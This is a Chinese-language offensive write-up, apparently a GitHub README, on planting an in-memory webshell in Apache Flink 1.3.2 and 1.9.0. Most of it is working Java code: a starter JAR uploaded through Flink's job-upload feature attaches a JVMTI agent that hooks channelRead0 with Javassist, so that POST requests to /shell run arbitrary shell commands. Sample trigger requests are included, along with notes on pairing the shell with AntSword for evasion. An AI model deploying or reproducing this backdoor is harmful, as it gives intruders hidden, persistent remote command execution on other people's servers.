




# Flink-Memory-Shell

在重要的生产网中，目标服务器无法外联，而遇到`Apache Flink`情况下如何写内存马，本文对这一有趣实践过程做了一个记录。

## 1. 思路

首先目标机器Flink版本为1.3.2、1.9.0，Flink底层是使用的`Netty`作为多功能socket服务器，我们可以有两种解决思路：①注册控制器；②通过JVMTI ATTACH机制Hook关键方法来写内存马。

### 1.1 应用层

第一个方案就是，类似`Tomcat`、`Spring`情况下的内存马，从当前或是全局中获取获取到被用于路由类功能的变量，注册自己的路由、处理器。这里拿1.9.0代码来举例，jobmanager的web服务器启动与初始化位于`org.apache.flink.runtime.rest.RestServerEndpoint#start`。

这里将自定义的控制器`handler`注册到路由器`router`，所以我们需要只需要参考`Flink`的业务代码，写好自己的`Handler`然后注册到该`route`变量即可。但很可惜，笔者找了一圈，没有发现相关的静态变量，无法获取到该路由对象。另外jar执行的代码处(invoke main方法)也没有传入啥有用的变量。要不就是想办法添加一个自定义的`SocketChannel`，但这个方法更加不现实。



### 1.2 JVM TI Attach

直接利用`JVMTI`的attach机制，hook特定类方法，在其前面插入我们的webshell方法，通过DEBUG相关HTTP处理流程，笔者最终实现了1.3.2、1.9.0版本下的内存马。

本文主要围绕如何使用该方法实现flink内充马进行讲述。

### 1.3 系统层

在系统层面，通过端口复用实现系统层面的木马，先知上有人提出该种想法[利用 Hook 技术打造通用的 Webshell](https://xz.aliyun.com/t/9774)，不过存在一些问题：①执行该操作的权限要求很高；②该hook操作容易被EDR发现；③需要兼容不同平台，且不同linux环境都可能导致不兼容。大佬有说到，通过替换lib库不容易被杀，但需要重启（跑题了）。

## 2. JVM TI概述

JAVA虚拟机开放了一个叫 JVM Tool Interface (JVM TI) 的接口，通过该接口，我们可以查看和修改在JVM运行中的Java程序代码。

实现了JVM TI接口的程序，称为agent，agent能通过三种方式被执行，①Agent Start-Up (OnLoad phase)：在JAVA程序的main函数执行之前执行agent，java命令中需通过-javaagent参数来指定agent，实现方式为premain ②Agent Start-Up (Live phase) ：对于正在运行的JAVA程序，通过JVM进程间通信，动态加载agent，实现方式为attatch机制 ③Agent Shutdown：在虚拟机的library 将要被卸载时执行。

如果使用jdk/tools.jar提供的jvm操作类，由于com.sun.tools.attach.VirtualMachine#loadAgent(java.lang.String)的限制，我们的agent需要先落地到系统中，而执行loadAgent这一操作的程序我们被称为starter。

关于agent，最近@rebeyond提出了一种不需要落地的方案，但其实我觉得落地agent这个问题不大（还请大佬们指教）：
https://mp.weixin.qq.com/s/JIjBjULjFnKDjEhzVAtxhw

## 3. 大体框架

首先，我们通过`Flink`的JAR上传执行功能，上传我们的`starter.jar`，starter被执行后，我们先释放agent到系统临时目录下，之后再加载该agent，并在加载完成之后删除即可。



## 4.寻找Hook点

由于`Netty`是用于支持多协议的socket服务器，对应用层HTTP的解析封装是Flink做的，所以为了简洁高效，我们可以选择在Flink这边Hook对应的方法。

### 2.1 Flink 1.3.2

通过浏览堆栈信息，查看相关代码，我们可以很容易发现该版本中我们需要的关键类方法在`org.apache.flink.runtime.webmonitor.HttpRequestHandler#channelRead0`

不过，一个HTTP请求过来，我们在这里并不能一次性拿到整个HTTP报文，在`msg instance of HttpRequest`情况下我们拿到的是请求行与请求头（这里简称请求头吧）,下一次再来到`channelRead0`中，且`msg instance of HttpContent`时，我们拿到的是请求体Body，这时需要从`this`中拿到`currentRequest`请求头、`currentDecoder`解码器，然后解析获取到Body中的key-value。



### 2.2 Flink 1.9.0

起初笔者看到1.9.0版本中存在1.3.2一样的代码，以为web流程没有变化，可以沿用1.3.2的Hook方法，但到实际测试时发现只是旧代码没有删除，而流程发生了变化，导致笔者需要hook新类方法。

笔者使用`org.apache.flink.runtime.rest.FileUploadHandler#channelRead0`该类方法作为hook点，这里的代码基础逻辑和1.3.2的一样，也是无法直接拿到整个HTTP请求报文，需要在`msg instance HttpContent`情况下使用`this.currentHttpPostRequestDecoder`处理BODY拿到KEY-VALUE表单数据，从`this.currentHttpRequest`拿到HTTP头。




## 5. 编写Agent

我们首先编写一个接口类`IHook`，声明一个Hook点的要素方法，其中我们可以通过JDK自带的工具获取方法描述符号，如

```
javap -cp flink-dist_2.11-1.9.0.jar -p -s org.apache.flink.runtime.rest.FileUploadHandler
```

### 5.1 IHook

```java
package com.attach.hook;

public interface IHook {

    /**
     * @return 插桩代码
     */
    String getMethodSource();

    /**
     * @return 被Hook的目标类空间名
     */
    String getTargetClass();

    /**
     * @return 被Hook的目标方法名
     */
    String getTargetMethod();

    /**
     * @return 被Hook的目标方法描述符
     */
    String getMethodDesc();
}
```

### 5.2 Flink132

我们在编写目标方法的Hook点时，需要引用相关的类或字段，在本地IDEA测试运行时我们直接引用相关jar包即可，而在打包JAR时，我们可以选择不打包进去，避免获得的jar包过大。

另外，关于实现webshell的业务功能，冰蝎工具就不适用了，因为behind的业务逻辑与`HttpServletSession`、`HttpServletRequest`、`HttpServletResponse`这几个类紧密耦合，修改它的代码的工作量也很大。但笔者还是十分希望有一个图形化界面的工具来辅助我们管理webshell，这样能极大提升我们的工资效率。随后笔者想到要不直接使用比较原始的工具`cknife`（JAVA版开源菜刀）,稍微改改就能用，但如果要流量免杀，就还得改客户端源码，也费精力。

后面又看到`AntSword`的`CMDLINUX Shell `功能，服务器只需要提供命令执行功能并回显结果，就能做到文件浏览、修改功能；而且AntSword支持自定义加密，这样一来选择这块工具就很省事了，至于其他重要的功能，如代理，就先放着吧。

另外，在笔者在内存马的代码中添加了内存马删除功能，当用户访问`/UNINSTALL`路径时，会触发`removeTransformer(..)`，将相关hook点去除。

flink1.3.2中，笔者给出的代码在成功hook后，触发命令执行的HTTP是这样的：

```http
POST /shell HTTP/1.1
Host: 192.168.198.128:8081
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

cmd=whoami
```

```java
package com.attach.hook;

import com.attach.Agent;
import io.netty.buffer.Unpooled;
import io.netty.channel.ChannelFutureListener;
import io.netty.handler.codec.http.*;
import io.netty.handler.codec.http.multipart.DiskAttribute;
import io.netty.handler.codec.http.multipart.HttpPostRequestDecoder;
import io.netty.handler.codec.http.multipart.InterfaceHttpData;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;
import static com.attach.util.FileUtil.IS_WIN;
import static io.netty.handler.codec.http.HttpHeaders.Names.CONTENT_TYPE;
import static io.netty.handler.codec.http.HttpVersion.HTTP_1_1;
import io.netty.handler.codec.http.HttpContent;

public class Flink132 implements IHook{

    @Override
    public String getMethodSource() {
        return "com.attach.hook.Flink132.getShell($0,$1,$2);";
    }

    @Override
    public String getTargetClass() {
        return "org.apache.flink.runtime.webmonitor.HttpRequestHandler";
    }

    @Override
    public String getTargetMethod() {
        return "channelRead0";
    }

    @Override
    public String getMethodDesc() {
        return "(Lio/netty/channel/ChannelHandlerContext;Lio/netty/handler/codec/http/HttpObject;)V";
    }


    public  static void getShell(Object handler,io.netty.channel.ChannelHandlerContext ctx,
                                 io.netty.handler.codec.http.HttpObject msg) {
        //如果发生java.lang.NoClassDefFoundError异常，是无法捕获的，且会影响业务。
        try {
            String uriSymbol = "/shell";
            String cmdKey = "cmd";
            if (msg instanceof io.netty.handler.codec.http.HttpContent) {
                Field currentDecoderField = handler.getClass().getDeclaredField("currentDecoder");
                currentDecoderField.setAccessible(true);
                io.netty.handler.codec.http.multipart.HttpPostRequestDecoder currentDecoder =
                        (io.netty.handler.codec.http.multipart.HttpPostRequestDecoder) currentDecoderField.get(handler);
                Field currentRequestField = handler.getClass().getDeclaredField("currentRequest");
                currentRequestField.setAccessible(true);
                DefaultHttpRequest request = (DefaultHttpRequest) currentRequestField.get(handler);
                HttpContent chunk = (HttpContent) msg;
                //currentDecoder not null meaning method is POST and body has data.
                if (currentDecoder != null && request!=null) {
                    if (request.getUri().startsWith("/UNINSTALL")) {
                        if (Agent.transformer != null) {
                            Agent.transformer.release();
                        }
                    }
                    if (request.getUri().startsWith(uriSymbol)) {
                        currentDecoder.offer(chunk);
                        Map<String, String> form = new HashMap<String, String>();
                        try{
                            while (currentDecoder.hasNext()) {
                                InterfaceHttpData data = currentDecoder.next();
                                if (data instanceof DiskAttribute) {
                                    String key = data.getName();
                                    String value = ((DiskAttribute) data).getValue();
                                    form.put(key, value);
                                }
                                data.release();
                            }
                        } catch (HttpPostRequestDecoder.EndOfDataDecoderException ignored) {}

                        String cmd = "null cmd";
                        if (form.containsKey(cmdKey)) {
                            cmd = form.get(cmdKey);
                        }
                        if (!form.containsKey(cmdKey)) {
                            return;
                        }
                        String[] cmds = null;
                        if (!IS_WIN) {
                            cmds = new String[]{"/bin/bash", "-c", cmd};
                        } else {
                            cmds = new String[]{"cmd","/c",cmd};
                        }
                        java.io.InputStream in =
                                Runtime.getRuntime().exec(cmds).getInputStream();
                        ByteArrayOutputStream outputStream = new ByteArrayOutputStream();
                        int a = -1;
                        byte[] b = new byte[1];
                        outputStream.write("<pre>".getBytes());
                        while((a=in.read(b))!=-1){
                            outputStream.write(b);
                        }
                        outputStream.write("</pre>".getBytes());
                        HttpResponseStatus status = new HttpResponseStatus(200, "OK");
                        FullHttpResponse response = new DefaultFullHttpResponse(
                                HTTP_1_1, status, Unpooled.copiedBuffer(outputStream.toByteArray()));
                        response.headers().set(CONTENT_TYPE, "text/plain; charset=UTF-8");
                        ctx.writeAndFlush(response).addListener(ChannelFutureListener.CLOSE);

                    }
                    // HTTP GET
                }else{
                 }
           }

        }
    }

}
```


### 5.3 Flink190

flink1.9.0中，笔者给出的代码在成功hook后，触发命令执行的HTTP是这样的：

```java
POST /shell HTTP/1.1
Host: 192.168.198.128:8081
Content-Type: multipart/form-data; boundary=--------347712004
Content-Length: 98

----------347712004
Content-Disposition: form-data; name="cmd"

whoami
----------347712004--

```

```java
package com.attach.hook;

import com.attach.Agent;
import org.apache.flink.shaded.netty4.io.netty.buffer.ByteBuf;
import org.apache.flink.shaded.netty4.io.netty.buffer.Unpooled;
import org.apache.flink.shaded.netty4.io.netty.channel.ChannelFuture;
import org.apache.flink.shaded.netty4.io.netty.channel.ChannelFutureListener;
import org.apache.flink.shaded.netty4.io.netty.handler.codec.http.*;
import org.apache.flink.shaded.netty4.io.netty.handler.codec.http.multipart.Attribute;
import org.apache.flink.shaded.netty4.io.netty.handler.codec.http.multipart.HttpPostRequestDecoder;
import java.io.ByteArrayOutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Collections;
import java.util.HashMap;
import java.util.Map;
import org.apache.flink.shaded.netty4.io.netty.handler.codec.http.multipart.InterfaceHttpData;
import org.apache.flink.shaded.netty4.io.netty.util.ReferenceCountUtil;
import org.apache.flink.shaded.netty4.io.netty.channel.ChannelHandlerContext;
import static com.attach.util.FileUtil.IS_WIN;
import static com.attach.util.FileUtil.writeMsg;
import static org.apache.flink.shaded.netty4.io.netty.handler.codec.http.HttpHeaders.Names.CONNECTION;
import static org.apache.flink.shaded.netty4.io.netty.handler.codec.http.HttpHeaders.Names.CONTENT_TYPE;
import static org.apache.flink.shaded.netty4.io.netty.handler.codec.http.HttpVersion.HTTP_1_1;

public class Flink190 implements IHook{


   // public static String targetClass = "org.apache.flink.runtime.webmonitor.HttpRequestHandler";
    @Override
    public String getMethodSource() {
        return "com.attach.hook.Flink190.getShell($0,$1,$2);";
    }

    @Override
    public String getTargetClass() {
        return "org.apache.flink.runtime.rest.FileUploadHandler";
    }

    @Override
    public String getTargetMethod() {
        return "channelRead0";
    }

    @Override
    public String getMethodDesc() {
        return "(Lorg/apache/flink/shaded/netty4/io/netty/channel/ChannelHandlerContext;Lorg/apache/flink/shaded/netty4/io/netty/handler/codec/http/HttpObject;)V";
    }


    public  static void getShell(Object handler,
                                 ChannelHandlerContext ctx,
                                HttpObject msg
    ) {
        //如果发生java.lang.NoClassDefFoundError异常，是无法捕获的，且会影响业务。
        try {
            String uriSymbol = "/shell";
            String cmdKey = "cmd";
            if (msg instanceof HttpContent) {
                Field currentDecoderField = handler.getClass().getDeclaredField("currentHttpPostRequestDecoder");
                currentDecoderField.setAccessible(true);
                HttpPostRequestDecoder currentHttpPostRequestDecoder =
                        (HttpPostRequestDecoder) currentDecoderField.get(handler);

                Field currentRequestField = handler.getClass().getDeclaredField("currentHttpRequest");
                currentRequestField.setAccessible(true);

                HttpRequest currentHttpRequest = (HttpRequest) currentRequestField.get(handler);
                final HttpContent httpContent = (HttpContent) msg;
                currentHttpPostRequestDecoder.offer(httpContent);

                if (currentHttpRequest.uri().startsWith("/UNINSTALL")) {
                    if (Agent.transformer != null) {
                        Agent.transformer.release();
                    }
                }
                if (currentHttpRequest.uri().startsWith(uriSymbol)) {
                    Map<String, String> form = new HashMap<String, String>();
                    while (httpContent != LastHttpContent.EMPTY_LAST_CONTENT && currentHttpPostRequestDecoder.hasNext()) {
                        InterfaceHttpData data = currentHttpPostRequestDecoder.next();

                        if (data.getHttpDataType() == InterfaceHttpData.HttpDataType.Attribute){
                            Attribute request = (Attribute) data;
                            form.put(request.getName(), request.getValue());
                        }
                    }
                    String cmd = "null cmd";
                    if (form.containsKey(cmdKey)) {
                        cmd = form.get(cmdKey);
                    }

                    for (String key : form.keySet()) {
                        writeMsg(key);
                    }
                    if (!form.containsKey(cmdKey)) {
                        return;
                    }
                    String[] cmds = null;
                    if (!IS_WIN) {
                        cmds = new String[]{"/bin/bash", "-c", cmd};
                    } else {
                        cmds = new String[]{"cmd","/c",cmd};
                    }
                    java.io.InputStream in =
                            Runtime.getRuntime().exec(cmds).getInputStream();
                    ByteArrayOutputStream outputStream = new ByteArrayOutputStream();
                    int a = -1;
                    byte[] tmp = new byte[1];
                    outputStream.write("<pre>".getBytes());
                    while((a=in.read(tmp))!=-1){
                        outputStream.write(tmp);
                    }
                    outputStream.write("</pre>".getBytes());
                    HttpRequest tmpRequest = currentHttpRequest;
                    getMethodInvoke(handler, "deleteUploadedFiles", null, null);
                    getMethodInvoke(handler, "reset", null, null);
                    HttpResponse response = new DefaultHttpResponse(HTTP_1_1, HttpResponseStatus.OK);
                    response.headers().set(CONTENT_TYPE, "text/html");
                    response.headers().set(CONNECTION, HttpHeaders.Values.CLOSE);
                    byte[] buf = outputStream.toByteArray();
                    ByteBuf b = Unpooled.copiedBuffer(buf);
                    HttpHeaders.setContentLength(response, buf.length);
                    ctx.write(response);
                    ctx.write(b);
                    ChannelFuture lastContentFuture = ctx.writeAndFlush(LastHttpContent.EMPTY_LAST_CONTENT);
                    lastContentFuture.addListener(ChannelFutureListener.CLOSE);
                    ReferenceCountUtil.release(tmpRequest);
                }
           }

        } catch (Exception e) {
        }
    }

    private static Object getMethodInvoke(Object object, String methodName, Class[] parameterTypes,
                                          Object[] args) throws Exception {
        try {
            Method method = getMethod(object, methodName, parameterTypes);

            return method.invoke(object, args);
        } catch (Exception e) {
            throw new Exception(String.format("getMethodInvoke error:%s#%s",object.toString(),methodName));
        }
    }

    private static Method getMethod(Object object, String methodName, Class<?>... parameterTypes) throws Exception {
        try {

            Method method = object.getClass().getDeclaredMethod(methodName,
                    parameterTypes);
            method.setAccessible(true);
            return method;
        } catch (Exception e) {
            throw new Exception(String.format("getMethod error:%s#%s",object.toString(),methodName));
        }
    }
}
```

### 5.4 Agent

由于我们使用attach机制去hook方法并插桩，我们的agent客户端被`loadAgent`调用时，入口方法为`agentmain`，所以我们这里只编写该方法即可。另外，将整个项目打包成JAR后，我们需要在`META-INF/MANIFEST`中添加对应的属性。

```
Agent-Class: com.attach.Agent
Can-Retransform-Classes: true
```

```java
package com.attach;
import java.lang.instrument.Instrumentation;
public class Agent {
    public static Transformer transformer = null;
    //注意，理论上运行环境已经有相关JAR包，为了减小打包后的JAR大小，在打包是不需要将javassist外的其他依赖打包进去
    public static void agentmain(String vmName, Instrumentation inst) {
        transformer = new Transformer(vmName, inst);
        transformer.retransform();
    }
}
```

### 5.5 Transformer

我们编写一个自己的`Transformer`类，实现`ClassFileTransformer`相关接口方法，由于目标类应该已经被加载了，所以我们需要通过`retransform`来重新转换已经加载的类。

```java
package com.attach;

import com.attach.hook.IHook;
import javassist.*;
import java.lang.instrument.ClassFileTransformer;
import java.lang.instrument.Instrumentation;
import java.security.ProtectionDomain;
import java.util.ArrayList;
import java.util.List;

public class Transformer implements ClassFileTransformer{
    private Instrumentation inst;
    private List<IHook> hooks = new ArrayList<IHook>();
    Transformer(String vmName,Instrumentation inst) {
        //为了适配不同版本，这里不直接import
        try {
            if (vmName.equals("org.apache.flink.runtime.jobmanager.JobManager")) {
                this.hooks.add((IHook) Class.forName("com.attach.hook.Flink132").newInstance());
            }
        } catch (Exception e) {
        }
        try {
            if (vmName.equals("org.apache.flink.runtime.entrypoint.StandaloneSessionClusterEntrypoint")) {
                this.hooks.add((IHook) Class.forName("com.attach.hook.Flink190").newInstance());
            }
        } catch (Exception e) {
        }
        this.inst = inst;
        inst.addTransformer(this, true);
    }

    public void release() {
        inst.removeTransformer(this);
        retransform();
    }

    public void retransform() {
        Class[] loadedClasses = inst.getAllLoadedClasses();
        for (Class clazz : loadedClasses) {
            for (IHook hook : this.hooks) { ;
                if (clazz.getName().equals(hook.getTargetClass())) {
                    if (inst.isModifiableClass(clazz) ) {
                        try {
                            inst.retransformClasses(clazz);
                        } catch (Throwable t) {
                        }
                    }
                }
            }
        }
    }
    @Override
    public byte[] transform(ClassLoader classLoader, String s,
                            Class<?> aClass, ProtectionDomain protectionDomain,
                            byte[] classfileBuffer
    )  {
        for (IHook hook : this.hooks) {
            String targetClass = hook.getTargetClass();
            if (targetClass.replaceAll("\\.", "/").equals(s)) {
                try {
                    ClassPool classPool = ClassPool.getDefault();
                    CtClass ctClass = classPool.get(targetClass);
                    CtMethod m = ctClass.getMethod(hook.getTargetMethod(),hook.getMethodDesc());
                    m.insertBefore(hook.getMethodSource());
                    byte[] byteCode = ctClass.toBytecode();
                    ctClass.detach();
                    return byteCode;
                } catch (Exception ex) {
                }
           }
        }
        return null;
    }

}
```

## 6. 编写Starter

starter这里需要使用到JDK的tools.jar包，用于和JAVA虚拟机进行通信，但不同JDK版本与不同系统架构都会导致jvm或是说tools.jar的差异，为了避免该问题，这里我们可以使用`URLClassLoader`优先从本地lib库中找tools.jar包，如果找不到再去使用我们打包的starter.jar中的相关虚拟机操作类。如果是Linux的情况，我们可以直接在JDK/lib下找到tools.jar包，而windows比这复杂多，不过目前不涉及到windows场景，也不必处理。

由于1.3.2与1.9.0的VM Name发生了变化，前者为`org.apache.flink.runtime.jobmanager.JobManager`，后者为`org.apache.flink.runtime.entrypoint.StandaloneSessionClusterEntrypoint`,这里直接对两种进行了判断。

```java
public class Starter {
    String agentJar = "HookSomething.txt";

    /**
     * here use URLClassloader to load VirtualMachine class which from `tools.jar`
     * the load sequence is 1. try to load from local system's jdk/lib/tools.jar
     *                      2. if can't load from local,try to load from the jar which we package
     * Because we need to use the JVMTI and communicate with JVM ,it's related to JVM,
     * so it's related to system architecture and java version.
     * In this case,load tools.jar from local is the best choice , it can avoid the problem case by
     * java version / system architecture .
     * @param args
     */
    public static void main(String[] args)  {
        try {
            Starter app = new Starter();
            //将resource下的agent.jar释放到临时目录
            String jarPath = app.writeAgentJar();

            File javaHome = new File(System.getProperty("java.home"));
            // here only handle Open JDK situation,others didn't . . Win Oracle JDK
            String toolsPath = javaHome.getName().equalsIgnoreCase("jre") ? "../lib/tools.jar" : "lib/tools.jar";
            URL[] urls = new URL[]{
                    //优先查找加载JDK LIB tools.jar
                    new File(javaHome, toolsPath).getCanonicalFile().toURI().toURL(),
                    //找不到的话加载打包的JAR，或者如果 .so 已经被加载 java.lang.UnstisfiedLinkError
                    Starter.class.getProtectionDomain().getCodeSource().getLocation(),
            };

            URLClassLoader loader = new URLClassLoader(urls, null);
            Class<?> VirtualMachineClass = loader.loadClass("com.sun.tools.attach.VirtualMachine");
            Class<?> VirtualMachineDescriptorClass = loader.loadClass("com.sun.tools.attach.VirtualMachineDescriptor");

            Method listM = VirtualMachineClass.getDeclaredMethod("list", null);
            List vmList= (List) listM.invoke(null);


            Object vm = null;
            List<String> vmNames = new ArrayList<String>() {
                {
                    add("org.apache.flink.runtime.jobmanager.JobManager");
                    add("org.apache.flink.runtime.entrypoint.StandaloneSessionClusterEntrypoint");
                }};

            for (Object vmd : vmList) {
                for (String vmName : vmNames) {
                    Method displayNameM = VirtualMachineDescriptorClass.getDeclaredMethod("displayName", null);
                    String name = (String) displayNameM.invoke(vmd);
                    if (name.startsWith(vmName)) {
                        Method attachM = VirtualMachineClass.getDeclaredMethod("attach", VirtualMachineDescriptorClass);
                        vm = attachM.invoke(null, vmd);
                        Method loadAgentM = VirtualMachineClass.getDeclaredMethod("loadAgent", String.class, String.class);
                        loadAgentM.invoke(vm, jarPath, vmName);
                        Method detachM = VirtualMachineClass.getDeclaredMethod("detach", null);
                        detachM.invoke(vm, null);
                        System.out.println("success");
                    }
                }

            }
            loader.close();

            new File(jarPath).delete();

        } catch (Exception e) {
            e.printStackTrace();
        }


    }
```

## 7. libattach.so被占用

起初笔者以为flink的JAR执行是通过`java -jar`进行的，后面发现其实就是invoke了main方法。这个情况下，导致了这么一个问题：starter成功执行attach之后，我们通过`/UNINSTALL`功能卸载内存马，再一次去执行starter时却发现starter执行失败。原因为，`VirtualMachine`在实例化时有个静态代码块加载了`libattach.so`，而第二次执行starter会导致在加载该so文件时报`java.lang.UnsatisfiedLinkError: Can't load library`异常。

为了避免该问题，我们可以一开始先将starter释放到临时目录下，通过调用系统命令`jar -jar`来运行starter。

## 8. 结语

在路由注册方式行不通的情况下，使用attach进行内存马的写入，不失为一个不错的方法，理论上在任何JAVA代码执行漏洞中，我们都可以使用该方式去写内存马，但关于内存马的业务功能这块，我们可能需要费一番功夫。